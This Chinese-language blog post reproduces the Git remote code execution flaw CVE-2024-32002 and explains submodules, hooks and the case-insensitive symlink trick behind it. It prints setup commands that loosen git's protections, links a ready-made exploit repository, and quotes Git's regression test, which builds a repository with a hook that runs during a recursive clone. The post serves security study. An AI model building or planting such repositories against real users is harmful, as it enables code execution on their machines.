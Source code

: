 ```yaml
---
layout: post
tags: [RealWorld]
title: "CVE-2024-32002复现(git 远程代码执行)"
author: wsxk
comments: true
date: 2024-8-19
---
```



- [1. 漏洞介绍](#1-漏洞介绍)
- [2 git 基础](#2-git-基础)
  - [2.1 git clone](#21-git-clone)
  - [2.2 git submodule](#22-git-submodule)
  - [2.3 hooks](#23-hooks)
- [3. 漏洞成因分析](#3-漏洞成因分析)
- [4. 漏洞复现](#4-漏洞复现)
- [references](#references)

## 1. 漏洞介绍<br>
**漏洞标题**：Git 远程代码执行漏洞（CVE-2024-32002）
**影响版本**：<br>
- version 2.45.*< 2.45.1
- version 2.44.*< 2.44.1
- version 2.43.*< 2.43.4
- version 2.42.*< 2.42.2
- version 2.41.*< 2.41.1
- version 2.40.*< 2.40.2
- version 2.39.*< 2.39.4

## 2 git 基础<br>
### 2.1 git clone<br>
首先需要知道，在使用`git clone`命令时，实际上做的命令如下:<br>
```
1、 mkdir -p <path> && cd <path> # 创建一个目录并进入
2、 git init # 初始化git仓库
3、 git remote add origin <url> # 添加远程仓库
4、 git fetch origin # 下载对象引用
5、 git checkout -b <branch> --track origin/<branch> #创建一个本地分支，并跟踪远程分支
```

### 2.2 git submodule<br>
`git submodule`用于在一个 Git 仓库中嵌入另一个 Git 仓库。子模块通常用于管理大型项目中的独立依赖项或组件，这些组件可以是独立开发的代码库。<br>
要将一个外部仓库作为子仓库添加到现有的 Git 中，需要如下命令:<br>
```
git submodule add <repository_url> <path>
<repository_url>: 外部仓库的路径，例子：https://github.com/example/repo.git
<path> ： 外部仓库存放在本仓库的目录名称
```
注意：当添加子模块后，该子模块的内容会被添加到本仓库中，`.git`虽然也会出现，但它是一个 **`符号链接，指向本仓库.git/modules/<path>`**<br>

**当我们使用git clone克隆含义子仓库的仓库时，不会自动的获取子仓库的内容**，要想获取子仓库内容，需要做如下命令:<br>
```
git submodule init # 初始化子模块配置
git submodule update # 从远程仓库获取子模块的内容
```

### 2.3 hooks<br>
`hooks`目录存在与`.git`目录下，里面存放很多shell脚本，**这些脚本会在git执行到某个阶段时被执行**<br>
举个例子，`hooks`目录中有个脚本名字叫做`commit-msg`，这个脚本就是在我们执行`git commit -m xxx`后，该消息即将被提交前，`commit-msg`会被执行。<br>
作为测试，具体的执行方法如下:<br>
```
1、将hooks中的 commit-msg.sample 中添加内容 echo "testtest"
2、将hooks目录中的 commit-msg.sample 更改为 commit-msg
3、执行git add --all && git commit -m "xxxx"
4、观察结果
```
你能观察到如下结果:<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-3-25/20240826215850.png)


## 3. 漏洞成因分析<br>
漏洞本质上是由于：<br>
git在进行clone的时候，**由于Windows或者MacOS操作系统大小写不敏感的特点**，主仓库中**用于存放子模块的目录在下载时被另一个指向.git目录的同名符号链接覆盖，导致往子模块写入数据的时候，全部都写入了.git目录中**，最后配合hook脚本完成隐蔽的攻击。<br>


## 4. 漏洞复现<br>
漏洞复现时，需要先指向如下命令:<br>
```
# Set Git configuration options
git config --global protocol.file.allow always
git config --global core.symlinks true
# optional, but I added it to avoid the warning message
git config --global init.defaultBranch main 
```
[https://github.com/amalmurali47/git_rce](https://github.com/amalmurali47/git_rce)这个网址提供了现成的仓库<br>
可以看一下官方验证poc<br>
```
test_expect_success CASE_INSENSITIVE_FS,SYMLINKS \
	'submodule paths must not follow symlinks' '
	# This is only needed because we want to run this in a self-contained
	# test without having to spin up an HTTP server; However, it would not
	# be needed in a real-world scenario where the submodule is simply
	# hosted on a public site.
	test_config_global protocol.file.allow always &&
	# Make sure that Git tries to use symlinks on Windows
	test_config_global core.symlinks true &&
	tell_tale_path="$PWD/tell.tale" &&
	git init hook &&
	(
		cd hook &&
		mkdir -p y/hooks &&
		write_script y/hooks/post-checkout <<-EOF &&
		echo HOOK-RUN >&2
		echo hook-run >"$tell_tale_path"
		EOF
		git add y/hooks/post-checkout &&
		test_tick &&
		git commit -m post-checkout
	) &&
	hook_repo_path="$(pwd)/hook" &&
	git init captain &&
	(
		cd captain &&
		git submodule add --name x/y "$hook_repo_path" A/modules/x &&
		test_tick &&
		git commit -m add-submodule &&
		printf .git >dotgit.txt &&
		git hash-object -w --stdin <dotgit.txt >dot-git.hash &&
		printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" >index.info &&
		git update-index --index-info <index.info &&
		test_tick &&
		git commit -m add-symlink
	) &&
	test_path_is_missing "$tell_tale_path" &&
	test_must_fail git clone --recursive captain hooked 2>err &&
	grep "directory not empty" err &&
	test_path_is_missing "$tell_tale_path"
'
```
官方验证poc主要做如下步骤:<br>
```
1. 创建hook仓库，创建y/hooks/post-checkout并添加到仓库中
2. 创建captain仓库，通过git submodule 将hook仓库添加到 captain仓库中的A/modules/x目录中
   captain仓库的.git文件里记录hook仓库.git的位置为.git/modules/x/y
3. 在captain仓库以底层的方式创建一个a文件(符号链接)，指向.git 并提交
4. 在git clone --recursive captain hooked后，会先拷贝captain的内容，在windows/macos中，A目录会被a替换，而a是指向.git的符号链接
   接下来在拷贝hook仓库的A/modules/x/y/hooks/post-checkout的内容时，会被拷贝到.git/modules/x/y/hooks/post-checkout
   而在git checkout执行后，执行post-checkout命令，完成利用
```


## references<br>
[https://www.cnblogs.com/Hi-blog/p/18224773/git_rce_CVE-2024-32002](https://www.cnblogs.com/Hi-blog/p/18224773/git_rce_CVE-2024-32002)<br>
[先知社区cve-2024-32002复现](https://xz.aliyun.com/t/14597?time__1311=GqAhDKYKAKKBMBbGkDRiUDktGOjleox)<br>
[启明星辰](https://www.venustech.com.cn/new_type/aqtg/20240521/27479.html)<br>
[奇安信](https://www.secrss.com/articles/66299)<br>
[https://showlinkroom.me/2024/05/24/GITRCE-CVE-2024-32002%E5%88%86%E6%9E%90/](https://showlinkroom.me/2024/05/24/GITRCE-CVE-2024-32002%E5%88%86%E6%9E%90/)<br>